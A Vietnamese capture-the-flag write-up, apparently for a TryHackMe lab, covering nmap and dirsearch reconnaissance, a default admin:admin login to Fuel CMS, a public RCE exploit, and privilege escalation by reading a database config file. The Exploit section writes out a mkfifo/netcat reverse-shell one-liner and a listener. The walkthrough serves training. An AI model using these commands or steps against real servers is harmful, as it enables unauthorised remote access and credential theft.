




# Ignite

## Performing reconnaissance

Dùng nmap để scan tất cả các port đang hoạt động: 

```nmap -vv -T4 -p- -Pn <THM ip address>```

Mình thấy có port 80 đang mở. Mình thử scan chi tiết port này 



Từ đây mình biết được server chạy apache httpd 2.4.18 trên OS ubuntu

Sau khi scan các port xong mình dùng dirsearch để tìm các đường dẫn ẩn và mình tìm được /robots.txt

```python3 dirsearch.py -u "10.10.156.237" -e "*" ```



Chúng ta tìm được đường đẫn tới /fuel/ với trang login mình thử với username:password với admin:admin thì vào được trang web

Mình thử search gg thì biết đây là một dạng db cho phép lưu trữ, quản lý files, video, text, ....

Mình thử dùng searchsploit để tìm các vuln liên quan đến db này 



Mình thấy bài này dính RCE

## Exploit

Mình tìm được payload từ trang web này https://www.exploit-db.com rồi tìm fuel CMS. Nhưng chưa dùng được luôn.

Vì đoạn code chúng ta tìm được ở đoạn code trên ở python2 và các địa chỉ khác nên chúng ta thay đổi một số thông tin như trong file exploit.py

Sau khi execute đoạn code ta đã có thể RCE được webserver. Tạo một reverse shell bằng bash

```cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip của mình> <port mở> >/tmp/f"```

Mở công 8080 bằng netcat ```nc -nlvp 8080```
Ở đây mình vào /home/www-data để đọc flag

### privilege encapsulation

Mới đầu mình thử priv từ sudo rights. Mình thử dùng ```find / -perm -u=s -type f 2>/dev/null``` để tìm các ứng dụng có SUID nhưng không có gì nên bỏ qua
Sau một lúc tra cứu kết hợp với wu thì mình thấy rằng tất cả các thay đổi sẽ được lưu trong file /fuel/application/config/database.php 



mình thử cat file này thì lấy được flag của của root. Login và lấy flag thôi


